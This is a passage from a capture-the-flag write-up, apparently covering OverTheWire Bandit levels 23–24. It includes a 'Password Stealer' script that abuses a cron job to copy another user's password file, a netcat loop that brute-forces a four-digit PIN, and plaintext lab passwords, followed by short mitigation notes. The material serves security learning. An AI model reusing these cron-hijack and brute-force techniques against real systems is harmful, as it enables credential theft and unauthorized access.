 ```cat data.txt | base64 -d```
2) ```cat /etc/cron.d/cronjob_bandit24```
3) ```vim pass.sh```
4) ```chmod 755 pass.sh```
5) ```touch pass && chmod 777 pass```
6) ```cp pass.sh /var/spool/bandit24```

##### Password Stealer 
```pass.sh```:
```bash
#!/bin/bash                                        

cat /etc/bandit_pass/bandit24 > /tmp/bgr/pass
```

#### What sins are evidenced in this challenge
Sin #12, Sin #17

#### How could those sins be mitigated
Don't let cron jobs with sensitive informtion be world-readable
Don't let unauthorized users write to other users' /var/spool/ dirs 


---
### Bandit 24

#### Credentials
Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

#### How you passed the challenge
```brute.sh```:
```bash
 #!/bin/bash
  
 for i in {0000..2500};
 do
     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i";
 done | nc localhost 30002 | grep -v "Wrong"
  
 sleep 5

for i in {2500..5000};
 do
     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i";
 done | nc localhost 30002 | grep -v "Wrong"
  
 sleep 5
  
 for i in {5000..7500};
 do
     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i";
 done | nc localhost 30002 | grep -v "Wrong"
  
 sleep 5
  
 for i in {7500..9999};
 do
     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i";
 done | nc localhost 30002 | grep -v "Wrong"                                                      

 # I don't know where the html came from below
```
